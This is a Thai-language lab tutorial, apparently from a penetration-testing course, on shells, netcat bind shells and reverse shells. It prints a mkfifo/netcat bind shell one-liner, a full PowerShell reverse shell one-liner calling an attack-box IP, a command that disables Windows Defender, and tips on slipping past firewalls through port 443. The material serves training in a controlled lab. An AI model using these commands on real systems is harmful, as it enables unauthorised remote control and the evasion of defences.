




# โครงสร้างของ Shell (Anatomy of a Shell)

## Terminal Emulator คืออะไร?

ระบบปฏิบัติการทุกตัวมี Shell และเพื่อที่จะโต้ตอบกับมัน เราต้องใช้แอปพลิเคชันที่เรียกว่า **Terminal Emulator**

### Terminal Emulator ที่นิยมใช้:

| Terminal Emulator | ระบบปฏิบัติการ |
|-------------------|----------------|
| Windows Terminal | Windows |
| cmder | Windows |
| PuTTY | Windows |
| kitty | Windows, Linux, MacOS |
| Alacritty | Windows, Linux, MacOS |
| xterm | Linux |
| GNOME Terminal | Linux |
| MATE Terminal | Linux |
| Konsole | Linux |
| Terminal | MacOS |
| iTerm2 | MacOS |

### หมายเหตุสำคัญ:

- **รายการนี้ไม่ได้ครอบคลุมทุก Terminal Emulator** ที่มีอยู่ แต่เป็นตัวอย่างที่น่าสนใจ
- **Open-source:** หลายเครื่องมือเป็น open-source สามารถติดตั้งข้ามระบบปฏิบัติการได้
- **การเลือกใช้:** เป็นเรื่องของความชอบส่วนบุคคลและรูปแบบการทำงาน ไม่มีตัวเลือกใดดีที่สุดแน่นอน
- **บนเป้าหมาย:** Terminal Emulator ที่เราใช้จะขึ้นอยู่กับสิ่งที่มีอยู่แล้วในระบบนั้นๆ

## Command Language Interpreters

### คำอธิบาย:

**Command Language Interpreter** คือโปรแกรมที่ทำหน้าที่แปลความหมายคำสั่งที่ผู้ใช้ป้อนเข้ามา และส่งงานไปให้ระบบปฏิบัติการประมวลผล

เปรียบเหมือน**ล่าม (Interpreter)** ที่แปลภาษาพูดหรือภาษามือแบบเรียลไทม์

### ความสัมพันธ์ของ Command-Line Interface:

**CLI = ระบบปฏิบัติการ + Terminal Emulator + Command Language Interpreter**

### ชื่อเรียกอื่นๆ:

- Shell Scripting Languages
- Command and Scripting Interpreters (ตามที่กำหนดใน MITRE ATT&CK Matrix - Execution Techniques)

### ความสำคัญในการเข้าใจ:

1. **ไม่ต้องเป็นนักพัฒนาซอฟต์แวร์:** เพื่อเข้าใจแนวคิดเหล่านี้
2. **ยิ่งรู้มาก ยิ่งประสบความสำเร็จ:** ในการ exploit ระบบที่มีช่องโหว่
3. **เลือกใช้คำสั่งที่เหมาะสม:** เข้าใจว่าระบบใช้ interpreter ตัวไหนจะช่วยให้เลือกใช้คำสั่งและ script ที่ถูกต้อง

---

## ฝึกปฏิบัติกับ Terminal Emulators และ Shells

### การทดสอบบน Parrot OS Pwnbox:

**ขั้นตอนที่ 1:** เปิด MATE Terminal Emulator
- คลิกไอคอนสี่เหลี่ยมสีเขียวที่ด้านบนของหน้าจอ
- พิมพ์ข้อความสุ่มๆ แล้วกด Enter



### การวิเคราะห์:

**1. Terminal Emulator ที่เปิดขึ้นมา:**
- แอปพลิเคชัน MATE Terminal Emulator
- ถูก configure ให้ใช้ Command Language Interpreter เฉพาะ

**2. การระบุ Shell Language:**
- เห็น**สัญลักษณ์ `$`** = ใช้ Bash, Ksh, POSIX หรือ shell languages คล้ายกัน
- `$` เป็นจุดเริ่มต้นของ shell prompt ที่ผู้ใช้สามารถพิมพ์คำสั่งได้

**3. ข้อความ Error:**
- "command not found" = Bash บอกว่าไม่รู้จักคำสั่งที่เราพิมพ์
- แสดงว่า Command Language Interpreter แต่ละตัวมีชุดคำสั่งที่รู้จักเป็นของตัวเอง

---

## วิธีระบุ Shell Language

### วิธีที่ 1: ใช้คำสั่ง `ps` (Process Status)

ดูกระบวนการที่กำลังทำงานบนเครื่อง:

```bash
ps
```

**ผลลัพธ์:**
```
    PID TTY          TIME CMD
   4232 pts/1    00:00:00 bash
  11435 pts/1    00:00:00 ps
```

**การแปลความหมาย:**
- เห็นคำว่า `bash` ในคอลัมน์ CMD = ระบบกำลังใช้ Bash shell

### วิธีที่ 2: ใช้คำสั่ง `env` (Environment Variables)

ดูตัวแปรสภาพแวดล้อม:

```bash
env
```

**ผลลัพธ์:**
```
SHELL=/bin/bash
```

**การแปลความหมาย:**
- ตัวแปร `SHELL` แสดงเส้นทางไปยัง shell ที่ใช้งาน = `/bin/bash`

---

## การเปรียบเทียบ PowerShell vs. Bash



### การทดลอง:

**เปิด PowerShell บน Pwnbox:**
- คลิกไอคอนสี่เหลี่ยมสีน้ำเงินที่ด้านบนของหน้าจอ

**ผลลัพธ์:**
```powershell
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.
A new stable release of PowerShell is available: v7.2.0
```

### ข้อสังเกต:

**การเปิด Terminal เดียวกัน แต่ Shell ต่างกัน:**
- ทั้งคู่เปิดผ่าน MATE Terminal Emulator
- แต่ใช้ Command Language Interpreter คนละตัว


---

# Bind Shells - การเชื่อมต่อแบบรอรับ

## Bind Shell คืออะไร?

**Bind Shell** คือรูปแบบการเชื่อมต่อที่ **ระบบเป้าหมายเปิด Listener และรอรับการเชื่อมต่อจากระบบของ Pentester (Attack Box)**

## การทำงานของ Bind Shell



### ขั้นตอนการทำงาน:

1. **เป้าหมาย:** เปิด Listener รอรับการเชื่อมต่อที่พอร์ตที่กำหนด
2. **ผู้โจมตี:** เชื่อมต่อไปยัง IP Address และพอร์ตที่เป้าหมายเปิดไว้

## ความท้าทายของ Bind Shell

การใช้ Bind Shell มีอุปสรรคหลายประการ:

### 1. **ข้อกำหนดพื้นฐาน:**
- ต้องมี Listener ทำงานอยู่บนเป้าหมายอยู่แล้ว
- หาก Listener ยังไม่เริ่มทำงาน เราต้องหาวิธีทำให้มันเกิดขึ้น

### 2. **อุปสรรคด้าน Firewall:**
- **Firewall ขาเข้า:** Admin มักตั้งค่า Firewall ที่เข้มงวดสำหรับการเชื่อมต่อขาเข้า
- **NAT/PAT:** มีการใช้ NAT พร้อม PAT บนขอบเครือข่าย (Edge Network)
- **ต้องอยู่ในเครือข่ายภายใน:** เราจำเป็นต้องอยู่ในเครือข่าย Internal แล้ว

### 3. **OS Firewall:**
- **Windows และ Linux Firewall** มักจะบลอกการเชื่อมต่อขาเข้าส่วนใหญ่
- ยกเว้นการเชื่อมต่อที่เกี่ยวข้องกับแอปพลิเคชันที่เชื่อถือได้

### 4. **ข้อพิจารณาในการสร้างการเชื่อมต่อ:**
- IP Address
- Port Numbers
- เครื่องมือที่ใช้

## GNU Netcat - มีดสวิสของ Network Tools

**Netcat (nc)** เรียกว่า "Swiss-Army Knife" เพราะความสามารถหลากหลาย:

### ความสามารถ:
- ทำงานผ่าน **TCP, UDP, และ Unix Sockets**
- รองรับ **IPv4 และ IPv6**
- **เปิดและรับฟัง (Listen) บน Sockets**
- ทำงานเป็น **Proxy**
- จัดการกับ **Text Input/Output**

### บทบาทในการเชื่อมต่อ:
- **Attack Box:** ทำหน้าที่เป็น Client
- **Target:** ทำหน้าที่เป็น Server

## ฝึกปฏิบัติกับ GNU Netcat

### ขั้นตอนที่ 1: เริ่ม Netcat Listener บน Target (Server)

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```

**คำอธิบายตัวเลือก:**
- `-l` = Listen mode (โหมดรับฟัง)
- `-v` = Verbose (แสดงรายละเอียด)
- `-n` = ไม่แปลง DNS
- `-p 7777` = พอร์ตที่ใช้รับฟัง

### ขั้นตอนที่ 2: เชื่อมต่อจาก Attack Box (Client)

```bash
Watunyoo@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

**ผลลัพธ์:**
- **Client:** แสดงข้อความ `succeeded!`
- **Server:** แสดงข้อความ `received!`

```bash
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

### ขั้นตอนที่ 3: ทดสอบส่งข้อความ

**จาก Client:**
```bash
Watunyoo@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

**ที่ Server:**
```bash
Victim@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy
```

**หมายเหตุ:** นี่ยังไม่ใช่ Shell จริง แค่เป็น TCP Session สำหรับส่งข้อความเท่านั้น

## สร้าง Bind Shell จริงด้วย Netcat

เพื่อให้ได้ Shell จริงที่สามารถโต้ตอบกับ OS และ File System ต้องทำดังนี้:

### ขั้นตอนที่ 1: Server - Binding Bash Shell

```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

**คำอธิบายคำสั่ง:**

1. **`rm -f /tmp/f`** - ลบไฟล์ /tmp/f ถ้ามีอยู่
2. **`mkfifo /tmp/f`** - สร้าง Named Pipe (FIFO file)
3. **`cat /tmp/f`** - อ่านข้อมูลจาก pipe
4. **`| /bin/bash -i 2>&1`** - ส่งต่อไปยัง bash แบบ interactive และ redirect error
5. **`| nc -l 10.129.41.200 7777`** - ส่งผลลัพธ์ผ่าน Netcat listener
6. **`> /tmp/f`** - เขียนผลลัพธ์กลับเข้า pipe

**สิ่งนี้คือ Payload ที่เราส่งมอบด้วยตนเอง**

### ขั้นตอนที่ 2: Client - เชื่อมต่อกับ Bind Shell

```bash
Watunyoo@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$
```

**ผลลัพธ์:** เราได้ Shell Session บนระบบเป้าหมายสำเร็จ!

## ข้อควรจำ

### สภาพแวดล้อมการฝึก:
- เราควบคุม **ทั้ง Attack Box และ Target System** ได้เต็มที่
- **ไม่มีมาตรการรักษาความปลอดภัยใดๆ** เช่น:
  - NAT enabled routers
  - Hardware Firewalls
  - Web Application Firewalls (WAF)
  - IDS/IPS
  - OS Firewalls
  - Endpoint Protection
  - Authentication Mechanisms
  - ไม่ต้องใช้ Exploits

### สถานการณ์จริง:
- มีมาตรการรักษาความปลอดภัยครบครัน
- ยากต่อการสร้าง Bind Shell
- Payload ต้องปรับให้เหมาะกับ OS ของเป้าหมาย

## ข้อเสียของ Bind Shell

### 1. **ง่ายต่อการป้องกัน:**
- การเชื่อมต่อเป็นแบบ **Incoming (ขาเข้า)**
- **Firewall มักตรวจจับและบลอกได้ง่าย**
- แม้ใช้พอร์ตมาตรฐานก็ยังเสี่ยงต่อการถูกบลอก

### 2. **ทางเลือกที่ดีกว่า:**
- ใช้ **Reverse Shell** แทน (จะกล่าวในหัวข้อถัดไป)
- Reverse Shell มีโอกาสหลบหลีก Firewall ได้ดีกว่า

---

# Reverse Shells - การเชื่อมต่อแบบย้อนกลับ

## Reverse Shell คืออะไร?

**Reverse Shell** คือรูปแบบการเชื่อมต่อที่ตรงข้ามกับ Bind Shell โดย **Attack Box จะเปิด Listener รอรับ และระบบเป้าหมายจะเป็นฝ่ายเริ่มต้นการเชื่อมต่อ**

## การทำงานของ Reverse Shell



### ขั้นตอนการทำงาน:

1. **Attack Box:** เปิด Listener รอรับการเชื่อมต่อ
2. **Target:** เริ่มต้นการเชื่อมต่อไปยัง Attack Box (ผ่านวิธีต่างๆ)

## ทำไม Reverse Shell ถึงได้รับความนิยม?

### ข้อดีเหนือ Bind Shell:

**1. หลบหลีก Firewall ได้ง่าย:**
- การเชื่อมต่อเป็นแบบ **Outbound (ขาออก)**
- Admin มักมองข้าม **Outbound Connections**
- โอกาสไม่ถูกตรวจจับสูงกว่า

**2. ข้อเปรียบเทียบกับ Bind Shell:**
- **Bind Shell:** ต้องอาศัย Incoming Connections ที่อนุญาตผ่าน Firewall (ยากในสถานการณ์จริง)
- **Reverse Shell:** ใช้ Outbound Connections (ง่ายกว่ามาก)

**3. การแปลงบทบาท:**
- **Attack Box:** กลายเป็น Server
- **Target:** กลายเป็น Client

## วิธีการเริ่ม Reverse Shell

### เทคนิคทั่วไป:
- **Unrestricted File Upload** - อัปโหลดไฟล์โดยไม่มีข้อจำกัด
- **Command Injection** - แทรกคำสั่งเข้าไป
- และอื่นๆ

## ทรัพยากรที่เป็นประโยชน์

### Reverse Shell Cheat Sheet
เป็นทรัพยากรที่ยอดเยี่ยมที่มี:
- คำสั่งต่างๆ
- โค้ดสำเร็จรูป
- Automated Reverse Shell Generators

**คำเตือน:**
- Admin หลายคนรู้จัก Public Repositories เหล่านี้
- พวกเขาปรับ Security Controls เพื่อตรวจจับเทคนิคเหล่านี้
- **บางครั้งเราต้อง Customize การโจมตี**

---

## การสร้าง Reverse Shell ใน Windows (ฝึกปฏิบัติ)

### ขั้นตอนที่ 1: เริ่ม Netcat Listener บน Attack Box

```bash
Watunyoo@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

**ทำไมใช้พอร์ต 443?**

- **443** คือพอร์ตมาตรฐานสำหรับ **HTTPS**
- ยากที่จะถูกบลอก เพราะ:
  - องค์กรส่วนใหญ่ใช้ HTTPS ในการทำงาน
  - การบลอกพอร์ต 443 จะทำให้งานหยุดชะงัก
  - Firewall ปกติไม่บลอก Outbound บนพอร์ตนี้

**ข้อควรระวัง:**
- **Deep Packet Inspection Firewall** และ **Layer 7 Firewall** อาจตรวจจับได้
- เพราะตรวจสอบ **เนื้อหาของ Packet** ไม่ใช่แค่ IP และ Port

### ขั้นตอนที่ 2: เตรียม Payload สำหรับ Windows

**คำถามสำคัญ:** แอปพลิเคชันและ Shell Languages ใดมีอยู่บน Target?

**ข้อควรพิจารณา:**
- **Netcat ไม่ได้มีมาใน Windows โดยพื้นฐาน**
- ต้องถ่ายโอน Binary ไปยัง Target (ยากหากไม่มีความสามารถอัปโหลดไฟล์)
- **ควรใช้เครื่องมือที่มีอยู่แล้วในระบบ** (Living off the Land)

### PowerShell Reverse Shell One-liner

**คำสั่งที่ใช้:**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**สิ่งที่ต้องปรับแก้:**
- เปลี่ยน IP Address (`10.10.14.158`) เป็น IP ของ Attack Box
- ตรวจสอบพอร์ต (443) ให้ตรงกับ Listener

**หมายเหตุ:** หากใช้ Pwnbox บางเบราว์เซอร์อาจมีปัญหากับ Clipboard ควร Paste ใน Notepad ก่อนแล้วค่อย Copy ใหม่

---

## อุปสรรคที่พบ: Windows Defender

### เมื่อรันคำสั่งครั้งแรก:

```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

**ผลลัพธ์:**
- **Windows Defender AV** บลอกการทำงานของโค้ด
- นี่คือการทำงานที่ถูกต้องของระบบป้องกัน
- **จากมุมมอง Defensive:** เป็นชัยชนะ
- **จากมุมมอง Offensive:** เป็นอุปสรรคที่ต้องเอาชนะ

### การปิด Antivirus (เพื่อการฝึกปฏิบัติ)

**วิธีที่ 1:** ผ่าน Virus & Threat Protection Settings

**วิธีที่ 2:** ใช้คำสั่ง PowerShell (ต้อง Run as Administrator)

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

---

## การเชื่อมต่อสำเร็จ

### หลังปิด AV แล้วรันคำสั่งอีกครั้ง:

**ที่ Attack Box:**
```bash
Watunyoo@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

**สังเกต:**
- Prompt เปลี่ยนเป็น `PS` (PowerShell)
- สามารถใช้คำสั่ง Windows ได้
- สามารถโต้ตอบกับ OS และ File System

### ทดสอบคำสั่ง:
- `whoami` - ดูชื่อผู้ใช้
- `hostname` - ดูชื่อเครื่อง
